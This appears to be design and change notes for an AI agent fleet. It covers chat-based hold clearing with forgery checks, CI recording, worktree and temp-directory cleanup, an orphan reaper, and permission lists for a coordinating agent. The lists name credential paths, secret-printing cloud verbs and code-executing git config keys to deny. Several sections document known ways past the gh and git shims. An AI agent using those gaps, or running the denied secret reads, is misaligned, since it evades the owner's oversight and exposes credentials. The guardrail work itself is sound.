- `bin/delegated_clear.py` holds the judgement: the score block (`score_block`), the order-line hash and file match (`line_hash`, `file_order_line`, `entry_of`), the decision (`judge`) and the validation and refusals. It holds no path, class or rule name of its own.
- `bin/impact_hold.py` runs the clear (`cmd_impact_delegated`) and its checks (`delegated_clear_checks`, `pr_checks`).
- `bin/fleet-switchboard` reads the rating from the ledger (`impact_rating_entries`, with the fields in `IMPACT_RATING_FIELDS`) and carries the command parser.
- `docs/review-laws/impact-matrix.json` holds the score block (levels, delegable levels, floor rules) and the machinery roots (`closure_roots`).
- `agents/reviewers/reviewer-impact.md` tells the rater to name the floor rule's id and never rate a floor path below `Serious`.
- `bin/fleet-doctor` has the delegated-order check: it fails when a configured file-sourced entry no longer matches the owner's line exactly once.
- `bin/test-switchboard` holds the scenarios, including the attacker's view (forged, stale or other-head rating, threshold edit, path tricks).

#### Heads

A head change voids the rating and the clear: the hold is back at the new head (#830), and the rating is per head. A rating recorded at another head, or a clear started after the head moved, is refused. A pure merge carry stays as it is; #815 widens it separately.

### Clearing a hold by saying so in the chat (#457)

The owner clears a held PR by writing so to the Chief of Staff ("366 is good to go") instead of running `impact clear`. **It is in SHADOW until the owner turns it live**: the daemon judges his messages and logs what it would do, and writes nothing to GitHub and sends nothing, until his own config says `"chat_clear": {"live": true}` (`"enabled": false` switches the hook off). Nothing in the fleet sets that key. **It is live only while every pass confirms it:** the CURRENT config file is read afresh each pass and must be valid and say `live` (the daemon keeps its last good config when a reload fails, so an invalid file means SHADOW at once, with the audit line `chat_clear.mode` = `shadow (config invalid)`), and the owner's panic stop is a file: `chat-clear.off` in the state directory forces shadow for as long as it exists (`touch`, and `rm` to return to the config's value). Every change of mode is one `chat_clear.mode` audit line. Built in four slices: offers and checks (slice 1), the judge's question and the decision (slice 2), the clear and the daemon hook (slice 3), the shadow run on his real messages and the live check (slice 4).

- **The hook.** At the end of each daemon pass (`chat_clear_pass`, called only by `publish_decisions`; no command, verb or agent can call it, and a command's engine does nothing) it records the offers from the same decisions the Decisions list is made of. Only when there is at least one offer does it read the owner's NEW messages in the Chief of Staff's session (the session's inbox and its newest user messages, two small reads; none under `v2_light`), and it judges each message ONCE (one Jev call; at most 3 per pass). A handled message is remembered on disk (`chat-clear-seen.json`), so a restart does not judge it again.
- **The clear (live only).** It clears only when all hold: the message is the owner's own, exactly one PR number is in it, the plain-sentence floor passes, Jev picks exactly that offer at the high bar, the message is newer than the offer, and the head he was shown is the PR's head. At the point of effect it reads the PR from GitHub again: it must be open, at exactly that head, with only owner-tier labels. It then removes the owner-tier hold labels it carries (impact, credential, policy) and the captain marker, through the same head-bound core `impact clear` uses (so the daemon does not re-add the hold for that head and a new head is judged again), comments on the PR and writes the audit line (`gate.hold_cleared`, `by: owner (chat)`) quoting his words (one line, at most 300 characters, control characters out, token-shaped text replaced), and tells the Chief of Staff. It never removes any other label and never adds one.
- **Everything else is a question.** Unsure, several, hedged, unreachable, a moved head, a PR whose labels changed: no write, and ONE message to the Chief of Staff naming what is held (once per message, whatever the number of passes). In shadow the question is logged, not sent.
- **The log.** Every judged message is one `chat_clear.verdict` audit line: his quoted words, the action, Jev's probabilities and what it would clear.

- **Offers.** Every open PR held by an owner-tier label (the impact, credential or policy hold label, or the captain marker) is an offer at the head the owner was last shown (`chat-clear-offers.json`, private; an entry that is damaged in any field is dropped on its own and, if the PR is held again, recorded as not shown). Refreshing the offers is the showing: the later hook records a head from the same read that builds his Decisions list; after a lost file nothing recorded counts as shown until a question has shown it. A PR that also carries another hold label (security, contract, prod-config, other-area) is never offered, and neither is one with only a `parked` label.
- **The owner's own words.** Only a message in the Chief of Staff's session whose `role` and `type` are `user`, made of plain `text` parts only (not an assistant, system, synthetic or tool message, not a compaction summary), with no fleet metadata, counts. A message an agent wrote never does. It also has to have been written AFTER the owner was shown the offer (the same second does not count), and an offer older than 7 days is shown to him again before it can be cleared.
- **Checks no model can waive.** The message must write the PR's number, exactly one number (every run of digits counts, however joined: `366-367`, `366/367`, `366, 389` are two numbers), standing alone (not `abc366`), and it must be an offer. Anything else is a question to the owner, never a clear. Slice 2 adds the judge, which can only confirm or veto. The offers file is a guardrail, not a boundary (agents sharing the account can write the state directory), so the clear re-reads the PR's labels and head from GitHub at the moment it acts.
- **The judge only confirms or vetoes (slice 2).** For a message about clearing, Jev answers one choice question (one option per offer, plus `several`, `asks` and `nothing`) with a probability for each. The decision is `clear` only when the checks found exactly one offered PR in an unhedged message and Jev picks THAT PR at 0.9 or more (the configured `min_confidence` can raise the bar, never lower it). The checks also refuse anything that is not a PLAIN clearing sentence: every word must come from a short allow-list (`366 is good to go`, `389 also good to go`, `ok to merge #366, thanks`; a question word such as `is` or `was` is allowed only directly after the number and not before `it` or `you`: `366 is good to go` clears, `is 366 good to go` and `366 is it good to go` do not), and it must be PRESENT tense: a report about the past (`366 was merged`, `366 shipped`, `366 has been cleared`, `I cleared 366`, `cleared 366`) is not a grant (`cleared` and `approved` count only AFTER the number with nothing before it, as in `366 cleared` and `366 is approved`; only imperative words may come before the number, as in `ok to merge 366` and `please clear 366`; `thanks` may only end the message, so `366 thanks for the release` is a thank-you, not a grant), so a question, a negation (`isn't` with a straight or a curly apostrophe), a condition, an exception or a time (`once CI passes`, `except the docs`, `tomorrow`) is a question to the owner whatever a judge would say. Token-shaped text in an offer's summary (stored summaries too) or a message is replaced by `[secret]` before it is stored, sent to the judge or put in a question; this is best effort, not a guarantee. Anything else about clearing (unsure, unreachable, a different PR, `several`, `asks`) is ONE question to the owner naming what is held. Chat with no clearing words in it asks nothing and costs no judge call.
- **A push after the offer clears nothing.** The offer keeps the head he was shown until a question shows him the new one.

## The ci recorder's daemon pass (#107)

`gates ci-record` made the switchboard the `ci` recorder, but someone had to run it, so a push would leave every `proof: test` scenario without its
verdict until a person did, and the preflight's 7-day proof would lapse. **The daemon now runs the same logic itself.** In every pass, after the decisions
are derived, `ci_record_pass` looks at the open PRs of the repos listed in `plan_gates` (and not `enabled: false`) that carry a `PLAN: <link>` in their
body (**drafts too**: `gh pr ready` needs the `ci` verdict present, so a draft must already have it), reads each one's checks at its **current head** and, only when they are all complete and green, records the passing `ci`
verdict for the per-PR scenarios that name `ci`: bound to that exact head and to the plan's current hash, never for a failing, pending or missing run,
never twice (an identical verdict already in the ledger is left alone), and audited as `gate.ci_record`. Because those records are real, the preflight's
"recorded successfully in the last 7 days" comes for free while any such PR exists. (A record where the plan has no `ci` scenario is audited with `ok: false`
and does **not** count as proof: nothing was recorded.)

**Shadow-safe.** It only writes verdicts into the ledger and audit lines. It refuses nothing, and it writes **nothing to GitHub**: it makes GET reads only (the
open-PR list through the hub, each PR through `gh pr view`, the plan through the issue and its comments). It never raises into the pass: an unreadable repo list is
noted (`ci_record.unreadable`) and the old list kept; a PR that fails to read is noted (`ci_record.error`) and the next one still runs.

**Budgeted like the triage.** `plan_gates.ci_record` takes `enabled` (default true), `calls_per_pass` (default 30, 4 to 100) and `pass_seconds` (default 10, 1 to
60). Each repo's open-PR list is cached for **3 minutes** (so a new PR, a push or a body that gained its `PLAN:` line is noticed within minutes; `gates ci-record <pr>` records at once), a PR whose checks are **still running** is looked at again after **1 minute** (a failing run or a plan that does not pass yet, after 3), so green is recorded within about five minutes of going green without anyone running a command; a settled PR (recorded, or nothing to record) is due again only 15 minutes after it was last **checked**
(the skip keys on when it was checked, not on what the check found); one that is **unreadable** is retried after 5 minutes, doubling to at most 30 (`ci_record.error` carries
`retry_in`); one whose **head moved since the list** is checked again at the next list refresh, not every pass; a head the refreshed list shows differently is due at once.
Each PR is charged 4 calls up front. A simulated 5-second loop reads once per list interval, not once per pass. `status` shows `ci-record: last pass <time> (<ago> ago), recorded N since the daemon started` (the daemon writes `ci-record-status.json`, at most once a minute). **The order of the evidence does not matter:** a `ci` verdict recorded before the worker's `prove` counts once the proof exists at the same head and plan, and the other way round; a push voids both. The pass is off while the global `plan-gates.off` file
exists. This slice also fixes `gates preflight`, which did not consult the recorder's proof (so it said BLOCKED even after a successful record) and made `gates mode`
keep the `ci_record` settings when it rewrites the config.

### Self-wakes: the overdue wake without `--reports-to`

`launch` made the overdue-checkpoint reminder only when `--reports-to` named someone. A launch from a fleet agent's pane with a CHECKPOINT (flags or brief) but no `--reports-to` now wakes the launching agent at the overdue time (only if the worker has not reported, as before); the worker's own metadata is unchanged. From a plain shell nothing changes (no one to wake, and the launch says so).

### Parked items (#130)

A deliberately deferred issue carries the label `<user>:parked` (made by `fleet-switchboard labels ensure`, idempotent, with each repo's own account) AND one line `Parked until: YYYY-MM-DD` in its body. Triage rule T3 ("no next step") skips it until the end of that day (UTC) and fires again after.
Strict on purpose: the label without a date, a date without the label, a malformed or impossible date (`2027-02-31`), two dates, a quoted or code-fenced line, or a past date all mean "not parked".
Parking never exempts anything waiting on the owner (an item with `awaiting-user` or `awaiting-cos` is judged as before) or a held PR (T3 does not judge PRs; the captain rules are separate). Shadow only, like the rest of the triage: it records, it does not act.

Parked items, follow-ups: a park reaches at most 366 days ahead (`9999-12-31` is not a park); the date is ASCII digits only (fullwidth digits are not read); a body with CRLF line endings is read. **Only T3 is exempted**, as specified:
a parked ASK can still raise T9 (an ask idle for 3 days); whether parking should exempt T9 too is a decision for the Chief of Staff and is not made here.


## A closed issue never shows in your panel, and its awaiting labels come off (#570)

An ISSUE that closes leaves the decision list, whatever label it still carries: the list never holds a closed issue or a closed pull
request, and it is never shown "marked closed" (#117 had kept it listed so a question closed as won't-do would not vanish unseen; the owner does not
want it). The catch-up read asks for open issues only, a closed issue is never added, and a report that named it goes with it. A closed webhook
PAYLOAD alone drops nothing (a late or replayed event, arriving after a reopen, would hide an open decision): the issue leaves only when a FRESH read says it is
closed (the pass below tells the hub to forget it); one that reads open, or whose read fails, stays listed (fail toward showing the decision).

So that an unanswered question is not lost silently, the daemon cleans up after the close (`bin/closed_labels.py`, built like the merged pull request
labels of #559). From the verified `issues` closed events the hub keeps (memory only), for an issue that carried one of the fleet's awaiting labels
(`<prefix>:awaiting-user`, `awaiting-cos`, `awaiting-live`): it reads the issue FRESH and, only when GitHub says it is closed and is not a pull request,
removes just those labels (exact names; `parked`, the hold labels and every other label stay) with the repo's own account, writes one
`closed.labels_removed` audit line, and sends the Chief of Staff ONE line per issue (the issue and the labels removed; reopen it if it was closed by
mistake). An event that says closed while the fresh read says open (a reopened issue, a stale or forged event), a failed read (audited once as
`closed.labels_read_failed`, retried after five minutes), and a repository that is not watched or is excluded (never read) remove nothing. An event
that carried no awaiting label costs no read. The reads and writes stay within the same per-pass cap as the merged-label pass. A close whose event was
missed (the daemon was down) is not cleaned; the sweep's withdrawal (S4) and the triage's **T10** (closed but still labelled awaiting) remain the hygiene
findings for it, and the owner sees nothing either way.

### The Chief of Staff and git: every read, no write

Allowed in any form `git [-C <path>] [--no-pager] [--git-dir=<path>] <read>`: `status log show diff rev-parse rev-list for-each-ref merge-base blame describe shortlog cat-file ls-files ls-tree show-ref diff-tree name-rev whatchanged count-objects grep ls-remote reflog show`, and the READ shapes of the mixed commands: `branch` (bare, `-v -vv -a -r`, `--list --contains --merged --no-merged --show-current --sort`), `remote` (bare, `-v`, `show`, `get-url`), `worktree list`, `tag` (bare, `-l`, `--list`), `config` (`--get --get-all --get-regexp --list -l`), `reflog`. They go in pipes and chains like the other reads.
Denied: every write verb as a standalone word anywhere after `git` (push commit add rm mv checkout switch restore reset revert cherry-pick merge rebase stash apply am fetch pull clone init submodule update-ref filter-* gc prune clean ... and `remote add|remove|set-url|prune|update`, `worktree add|remove|prune|move`, `reflog expire|delete`); branch and tag create, delete, move and `-D -m -u` flags; `config` writes, `--unset --add -e --global --file`; `--output`, `--exec`, `--upload-pack`, `ext::`, `--work-tree`; and **`git -c` in every position**: whether a key executes something (`core.pager`, `core.sshCommand`, `alias.*`, `credential.helper`) cannot be told from the text and a deny cannot carve an exception, so none is allowed.
`fetch` and `pull` stay denied (they change local refs): the owner can say otherwise. Known limits: a read that names a write verb as a plain argument (`git log --grep push`) is denied; a redirect in the final segment of a pipeline is not seen by the rules (existing gap); `2>&1` is denied on main until the redirect change lands. Built on main; it conflicts with the held gates change in `gen_permissions.py`, to be rebased if that merges first.

## The plan review engine, first commands (#109 part 2, R2)

`fleet-switchboard plan review start <plan> --ask <ask>`, `verdict`, `respond`, `status` and `abandon` run the adversarial review the plan describes, off unless
`plan_review.enabled` is true in the config (keys: `lane_timeout_seconds`, `max_parallel`, `session_cap`, `starts_per_day`, `held_globs`, `lane_agent`, `dir`,
`workspace`). They write the hash-chained ledger and the audit and launch lane sessions; they write nothing to GitHub and never write a consensus record
(that is a later slice). The design is [docs/plan-review-engine-design.md](plan-review-engine-design.md); its "Build status" says what is built.

### The Chief of Staff's permissions are a short list (#191)

The generated list (enumerating every flag and redirect form as its own deny) grew to about 30,000 lines. It is replaced by a hand-written block in `agents/opencode/chief-of-staff.md` and `cos-subagent.md`, **under 200 lines, one rule per line, deny by default**; the generator is deleted and a test fails if a block reaches 200 lines. The premise is the owner's: a **focus, not a fence**. Allows are the job (`fleet-switchboard` coordination commands, `gh` reads and comment/close/edit/merge, any `git` read, `az` list/show/log reads, `jq grep cut head tail sort uniq wc tr`, `timeout`/`sleep`, `herdr` looks, the temp-dir heredoc); the few denies keep it out of what nothing in the job needs (`gh pr review`, `--admin`, `--auto`, `gh api` writes, secret values and `az containerapp`, git write verbs and `git -c`, `fetch`/`pull`, `gates ... enforce|on`, `waive` of G6/G8, `decisions batch`). `gates` (read, `mode shadow|off`, `off`) and `waive` are allowed as scoped in #163; `2>&1`, message text with `>`/`;`/`$(`, and jq `--jq` filters just work.
**Accepted gaps** (listed in the proof's `harmless` set): redirects to files (`> f`, `>> f`) and quoting are not policed; `git branch x`, `git tag v1`, `git config user.name x` and `git config --add/--global` run; `head`, `tail`, `grep` and `ls` of paths outside the job (documents, keychains, `~/.ssh`) run (only `cat` of credential paths is denied, and a heredoc that names one); `az * show` shapes could be abused with a write verb word; the pipeline-final-segment redirect is not seen by the engine at all.
**Rollback:** restore the previous definition files and reinstall. Install: reinstall agents and restart the Chief of Staff (a running session keeps the definition it began with).

## The review laws starter set and `review-laws install` (#179, slice L1)

`docs/review-laws/` is the generic starter set every repository starts from: `REVIEW_LAWS.md` (numbered citable rules, the verdict format, what blocks, and the impact rating on
MIL-STD-882E's categories with definitions rewritten for software and the mapping to the 4x5 matrix), `CODING_STANDARDS.md`, `SECURITY_STANDARDS.md` and `TEST_STANDARDS.md`, each
opening with `extends: fleet-kit-review-laws @ review-laws-<n>` (the version is in `docs/review-laws/VERSION`; `docs/review-laws/impact-matrix.json` is the single source of the impact matrix, which a test keeps equal to the table in `REVIEW_LAWS.md`). `fleet-switchboard review-laws install <repo path>` copies the four files to the
repository's root and prints what to edit; it never overwrites a copy the repository already has (`--force` replaces it), writes nothing else and does not touch the repository's
`AGENTS.md` (the laws must not contradict it). Reviewers read these files from the base branch of a pull request. Plan: issue 179.

### `gh pr merge` goes over a blocking review only on purpose (the shim, any repo: a guardrail, not a boundary)

Root fix for a merge made minutes after an unread CHANGES_REQUESTED. In **any** repo, `gh pr merge` (and `--admin`) through the shim is **refused** (exit 10) while a reviewer's LATEST decisive review on the PR is CHANGES_REQUESTED
(not dismissed, not superseded by that reviewer's later approval; a plain comment decides nothing), or while the switchboard holds a blocking `review record` at the PR's CURRENT head
(`fleet-switchboard review blockers <pr> [--head]` prints the reviewers whose latest recorded result at that head is request-changes). The refusal line names them. **Independent reviews in this fleet are posted as COMMENTED reviews** (one shared account cannot request changes on its own PRs), so the guard also reads the review body's FIRST LINE: `Review of <head sha>: CHANGES REQUESTED` (or `APPROVE`; any sha prefix of 7 or more characters, case-insensitive). For each reviewer (the login plus the `from=` tag a signed body carries) the LATEST tagged review **at the PR's current head** decides: CHANGES REQUESTED blocks until that reviewer's later review at that head says APPROVE; a tag for another head, a tag that is not the first line, and any untagged comment never block. `--over-review <reason>` (at least 10 characters; also `--over-review=<reason>`)
lets an orchestrator proceed on purpose: the shim strips it before the real `gh` sees the command and writes an `over_review` line (who, PR, head, reason, what was overridden) to the gate spool for the audit. **Fail mode:** if GitHub's reviews or the
switchboard's records cannot be read, the merge goes through with one visible warning line (a flake never blocks, and is never silent). `pr ready` and the daemon's own calls are not checked. **This is a guardrail against accidents, not a boundary:** calling the real `gh` directly, a flag shape the shim does not understand (fail open), or `--over-review` with any reason of 10 characters gets past it, and the check reads the PR's head before the merge runs unbound, so a push in that short window can land an unchecked head. The boundary is GitHub's branch protection and required reviews. An override whose log line cannot be written (no writable switchboard state) is refused, so no override goes unlogged; the reason is clipped to 100 characters in the line so the head and the overridden reviews always fit. A bare PR number (all digits) or URL after `--over-review` is the PR, not the reason.

### `git stash` is refused in an agent's shell (the `git` shim: a guardrail, not a boundary) (#341)

A repository has one stash stack shared by every worktree, so a `git stash pop` in one agent's worktree can apply files another agent stashed (one carried an agent's unpushed files into another's pull request). The `git` shim (`shims/git`, logic in `shims/stash_guard.py`) refuses every `git stash` form but `list` and `show` with exit 1 and a message to commit to a scratch branch instead (`git switch -c scratch/<name>` and a `wip` commit); nothing is created. The bare `git stash` pushes, so it is refused too, as are `-p`, `-m`, `-- path`, an unknown word and any other spelling: only an exact `list` or `show` passes. Fail closed: global options (`-C`, `-c`, `--git-dir`, `--no-pager`, ...) are skipped; an alias (from `-c`, `--config-env`, `GIT_CONFIG_COUNT`/`GIT_CONFIG_PARAMETERS` or any config file) is read through the real git and followed, a loop or one that cannot be read is refused, and a shell alias that names stash is refused (one that runs `git` reaches the shim again through `PATH` unless git's exec path holds a `git` of its own, so an obfuscated shell alias can get past); a verb git does not know is refused when `help.autocorrect` is set to anything but 0, false, no, off, never or show (a negative number runs the near miss at once) and could turn it into `stash` or when the caller moved the exec path (`GIT_EXEC_PATH`, `--exec-path=`). `FLEET_GIT_SHIM=off` (the credential routing switch) does not lift it. The owner's own terminal has no shim on `PATH` and is unaffected. **Not stopped:** git run by its full path, an obfuscated shell alias, a command git itself starts (`rebase -x`, `bisect run`, `submodule foreach`, hooks: git puts its exec path first on `PATH`), and `--autostash` on `pull`, `rebase` and `merge` (out of scope). The coder and orchestrator definitions say the same.

### The worktree lifecycle (#321, slices S2, S3, S10)

`launch` records every **linked git worktree** it launches an agent into in a registry (`worktrees.json`, atomic, 0600: path, agent, repo, branch, created; audited `worktree.registered`; `disk register-worktree <path> --agent N` records one
launch did not create, with `reattach`'s caller rule). `retire` and an automatic retire run a **reclaim** of that agent's REGISTERED worktrees: one is removed (`git worktree remove`, never `--force`, the branch is kept)
only when `git status` is clean (untracked files count) AND its HEAD is on a remote branch (pushed or merged); otherwise it is kept and one line says why (`uncommitted changes (N file(s), e.g. ...)` or `unpushed (HEAD ... is on no remote branch)`), audited `worktree.kept` / `worktree.removed`.
**Never an unregistered worktree, never a main checkout** (a registry entry that is one is `refused`), never a branch. `fleet-switchboard disk reclaim-worktrees [--apply]` does the same for the registered worktrees of agents that are retired: a dry run by default; `--apply` is the operator's or the
Chief of Staff's; an entry whose directory is already gone is dropped. Kill switches: `"worktree_reclaim": {"enabled": false}` stops every removal (only the lines are said), `{"on_done": false}` stops just the done-report note. **A worktree any herdr pane is working in is kept**: one `herdr pane list` (agent panes AND plain terminals, no row cap) is compared, by realpath, with both each pane's `cwd` and its `foreground_cwd`; the line names the pane (close it or leave the directory first). A list herdr cannot give, or a row this cannot read, keeps the worktree (fail closed). **So does the OpenCode session directory of any non-retired agent** (for every agent in the pane-health registry or the last discovery): a session can run in a worktree while its pane sits elsewhere. The sessions are looked up in ONE paged `session.list` per sweep (cached for the sweep, never between sweeps); a list that cannot be read, or a known session missing from a list longer than 20 pages, keeps the worktree; a session missing from a complete list is asked for with `session.get` before it is called gone (404), and any other error keeps the worktree; a retired agent's session does not hold it. **Ignored files:** an ignored file that is not known build output (`node_modules`, `__pycache__`, `dist`, `build`, `.venv`, caches) keeps the worktree, because it would be lost (a local `.env`, say). **A `done` report removes nothing**: it only says `reclaimable: clean and pushed` (a worker often goes on in the same worktree); `retire` or `disk reclaim-worktrees --apply` removes it. **A second claim never takes a worktree over**: an existing registry entry's owner is never overwritten (a launch or `disk register-worktree` into a worktree registered to another agent is refused with a line), and only the owner's retire removes it. `launch` does not itself run `git worktree add`, so it cannot prove it created the worktree; it registers a linked worktree only when nobody holds it. At most 20 worktrees are handled per run. Needs git 2.31 or newer (`--path-format=absolute`); an older git leaves `why` set and nothing is removed. When a worktree IS removed, the line says the worker's session cannot be resumed from that directory (its location is gone) and that the way back is a fresh launch under a new name; a kept worktree says why and prints no such warning.

### A private `TMPDIR` per agent, and the shim's warning about shared body files (#767)

Every agent `launch` (and `launch --resume`) starts in a pane gets its **own temporary directory**: `<profile>/tmp/<agent name>`, made by the launch with mode 0700 (the name is the validated agent name, nothing else) and handed to the private wrapper as `FLEET_AGENT_TMPDIR`, which the wrapper exports as that agent's `TMPDIR`. Two agents on one profile get two directories, so a default `mktemp` and `$TMPDIR/x` never meet another agent's files. If the directory cannot be made, the launch **fails** with one line naming it and starts nothing: an agent never runs on the shared directory by fallback. Nothing else in the launch environment changes. An agent started before the install keeps its old environment; a shared profile (no wrapper) is unchanged, and a `--headless` worker has no pane environment, so the plugin gives it its directory instead (next section).

**At `retire`** the agent's private `TMPDIR` is handled in the style of its worktrees: it is **removed when it is empty**, and **kept, with one `tmpdir:` line giving the reason** (how many files are still in it), when anything is left in it. It is never forced and never emptied recursively; what is kept is left for you to remove by hand.

**A headless worker's private `TMPDIR` (#846).** A headless worker (the default launch) has no pane, so the `fleet-hooks` plugin sets its `TMPDIR` in the per-command shell environment, the one that already puts the shims first on `PATH`. The plugin tells the session is a launched headless worker from the launch record (`<state>/headless/<name>.json`, which holds the session id), read the way the switchboard reads it (a real directory of the user's, a private regular file, 8 KB at most, no symlink), and the session id is the `OPENCODE_SESSION_ID` the service sets for the command. For such a session only, `TMPDIR` becomes `<data>/fleet-switchboard/profile/tmp/<agent name>` (the same root and the same name check as a pane's), made on first use with mode 0700. **Nothing else changes**: not `PATH`'s shims, not `HOME`, no other variable. A terminal worker (it has `FLEET_AGENT_TMPDIR`), the Chief of Staff, a plan review lane and a session with no launch record are untouched. If the directory cannot be made, or a symlink or a file is at the path, the command runs on the shared `TMPDIR`, the plugin writes **one** stderr line per session saying so, and it never throws or blocks. `retire` of a headless worker removes the directory by the same rule as a pane's (empty only, never forced or recursive, only the agent's own under that root; otherwise a `tmpdir:` line gives the reason). **Needs a plugin install and an OpenCode service restart to load**; a worker started before that keeps the shared directory. Unverified until the plugin is loaded: that the shell spec carries `OPENCODE_SESSION_ID` (without it the plugin changes nothing).

**Unchanged:** the OpenCode temp-directory sharing for the Chief of Staff and for the reviewer subagents. The reviewers run inside the coder's own session, so they see that coder's `TMPDIR`; the Chief of Staff (started by `bootstrap`) and the plan review lanes are skipped by name, so they keep the shared directory.

The `gh` shim also writes **one warning line** on stderr when a `--body-file`, `--body-file=PATH`, `-F PATH` or `-FPATH` names an absolute path whose parent directory *is* a shared temp directory (`/tmp`, `/private/tmp`, or the profile's shared temp root, the parent of the agent's own `TMPDIR`), and points at `$TMPDIR`. It looks at the path as text only (`..` is folded lexically): it never opens, stats or reads the file, never refuses, and never changes the arguments, the exit code, the signing or the credential route; any error in it is silent. A path under the agent's own `TMPDIR`, in a `mktemp -d` subdirectory, or a relative path gives no warning.

### The orphan reaper (#321, slice S7)

A process of this user whose parent is launchd (pid 1), that has run longer than the grace (`"orphan_reaper": {"grace_hours": 6}`, 0.5 to 720) and whose command matches an **allow-list of three command shapes** is an orphan of a finished test or agent: `fake-agent` (a python `fake-agent.py` under a `host-mctx` directory in this user's temp directory), `node-test` (a `node ... --test` runner whose command line names an absolute path in such a worktree or temp directory; a bare `node --test` is not matched) or `python-helper` (an absolute `.py` script that lives in a fleet worktree under `~/Code/fleet-kit.wt` or in this user's own temp directory (`$TMPDIR`), not all of `/tmp`). `status` lists them (`orphans  N: kind pid (age), ...`), `fleet-switchboard disk reap-orphans` lists them too (**a dry run by default**), and `disk reap-orphans --apply` (the operator or the Chief of Staff only) sends **SIGTERM, then SIGKILL after 5 seconds** if the same process is still there, at most 20 per run, each audited (`orphan.term`, `orphan.kill`). Never pid 1, this process or its parent, never another user's process, never one whose parent is not pid 1, never a command that names opencode, herdr, the switchboard, docker, ssh or tmux, never a command outside the allow-list. The process is read again just before each signal and must be the same pid, parent, owner and command, so a reused pid is not signalled. Nothing runs it on its own. The kill switch is `"orphan_reaper": {"enabled": false}`: no listing in `status`, and `--apply` refuses. The audit lines carry who applied the reap (`by`).
### The Chief of Staff's disk, az and cross-account reads (cos permission list and gh shim)

The Chief of Staff's permission list gains: **`fleet-switchboard disk *`** (the report, `prune`, `reap-docker`, `janitor`, `reap-orphans`, `reclaim-worktrees`, each `--apply` included: the owner wants the Chief of Staff to run them), **`gh issue create`**, **`az` reads** (`az <group> [<sub>] show|list|list-usage`, `containerapp show` and `revision list`, `log`, `logs`, `status`, `query`) and the removal of the blanket `az containerapp*` deny (only `az containerapp exec` stays). **`az containerapp show` prints a container app's environment variable VALUES, and the owner chose to allow it** (secrets held as `secretRef` are not printed); the list is a guardrail for a focused agent, not a boundary: the boundary is the Azure role the signed-in account holds. Every verb that can print a secret stays denied: `*secret*`, `*credential*`, `*key*` (key, keys, admin-key, list-keys, and so `az keyvault`), `*connection-string*`, `*appsettings*`, `*get-access-token*`, `az rest`. A write that carries `list` or `show` as an ARGUMENT (`az vm restart -n list`) is matched by the same glob as before this change; the writes the list names (`create`, `delete`, `update`, `set`) are denied wherever they appear, others rest on the Azure role. **`--docker` takes only a docker:** every `disk` subcommand that takes `--docker` (`report`, `prune`, `reap-docker`) refuses anything whose name, or whose symlink target's name, is not exactly `docker`, anything that is not a regular executable file owned by this user or root, and anything writable by group or other; its own directory must not be writable by group or other, and every ancestor must be owned by root or you and not writable by other (nor by a group unless root owns it, so a standard Docker Desktop install under the root-owned, group-writable `/Applications` passes); it is a bare name resolved from PATH or an absolute path. The Chief of Staff's list also DENIES `fleet-switchboard disk *--docker*` (it has no need of the flag). No other `disk` flag takes a path, an executable or a command: `--apply`, `--dry-run`, `--agent`, `--repo` and `register-worktree PATH` (which must be a linked git worktree; removal is then limited to the registered, clean, pushed, unused ones). The block stays under 200 lines (`pwd`, `uptime` and `fleet-switchboard version` were dropped to make room). `gh pr merge` stays allowed as before; no `git push`, no file edits, no `gh repo`, `gh secret`, `gh workflow run` or `gh run rerun`; `timeout N gh pr|issue view|list` is four explicit lines (a wildcard group would match writes behind `timeout`).

**The gh shim picks the account of the repo a command NAMES for a caller with no repo of its own** (the Chief of Staff): for `gh issue ...` and `gh pr ...` commands, never `merge`, that carry `-R`/`--repo` (or `--repo=`, `-Rowner/repo`), or an issue or pull request URL as the target right after the verb, `gh_users` is consulted for THAT repo, reads and writes alike. The repo is read only from the real flag or that target: never from a `--body`, `--title` or other flag's value, and two different repos named give none. A caller that has a repo of its own keeps its own account. `whoami --json` now carries `own`: false when the repo it prints is only the config's `intent_repo` default (the Chief of Staff has no repo of its own, and before this the default repo's account was used for everything it ran), and the shim then treats the caller as having none, using the named repo's account when a command names one and the default's otherwise. Nothing else (`repo`, `secret`, `workflow`, `run`, `api`, `merge`) picks an account by what it names. It fails closed like the #270 rule: a write whose token cannot be had is refused with `gh: account lookup failed, retry`; a read still falls through. It is a convenience for a caller that works across accounts, not a boundary.

### Headless workers: presence from the service, not from a terminal (#433)

A worker is a session in the OpenCode service; a terminal is only a way to watch it. A worker with no terminal is **headless**. herdr knows nothing about it, so what it is doing comes from the service alone, by ONE rule in `bin/agent_presence.py` (measured in a spike on a throwaway profile of the live version, never on the live service):

- **working:** its session id is in `session.active`.
- **blocked:** it is in `session.active` AND `session.permission.list` or `session.form.list` is not empty. `session.active` still says `running` while a worker waits for an answer, so blocked is derived, never read from `active` alone; the lists alone never make a session blocked.
- **idle:** it is not in `session.active` (a prompt queued a moment before the service starts its turn is seen as idle until the next read).
- **unknown:** the service does not answer. Never dead, never working: the worker is listed with the problem, a delivery to it is held (not dropped) and it is read again at the next pass.

**Discovery.** The index is one private record per headless worker, `state-dir/headless/<name>.json` (`worker`, `url` a loopback `http://127.0.0.1:<port>` kept for information and never used to send a request, `session`, `kind` `local`, `created`; mode 0600, written atomically, a symlink or a file others can write is not trusted). **Only the state rule is shared with the cloud-workers lane;** the local record is its own file in its own directory: a shared record would need `docs/cloud-worker-interface.md` section 3 amended first (it has no `session` or `kind`). A record is an index, never proof of presence: the service must have the session and it must carry the worker's name in `metadata.fleet.name`, else the worker is not listed. `session.active` is read once per pass for all of them; the permission and form lists are read only for a session that is running. `status` lists the worker with its state and the pane `(headless)`, never `(not found)` while its session lives. A delivery to it is read fresh first and is not held for lack of a pane. Terminals are discovered first: when a terminal runs the same session (`watch`), herdr's picture of it wins, and a record that names a terminal agent with a DIFFERENT session is a conflict (never delivered to), not a takeover. The existing wakes work unchanged: a finished turn and a blocked worker reach the boss as for any worker. Nothing here opens a terminal or launches a worker; `launch --headless`, `watch` and the answer path are the next slices. Lab numbers (about 2 MB of service memory per headless session against 195 to 420 MB per terminal) are the shape: a busy real worker costs more.

### A worker's repository is recorded at launch; no fallback to the default account (#473)

A worker's repository decides which gh account it acts as. `launch` without `--repo` (and without a qualified `--issue` or a `--charter`, which name one) now reads the `origin` remote of the working directory **once, in the launcher**, and records the repository in the worker's metadata. It prints `repository: owner/name (from origin)` to stderr, or `no repository recorded (<reason>): pushes will be refused; pass --repo`. An explicit `--repo` always wins.

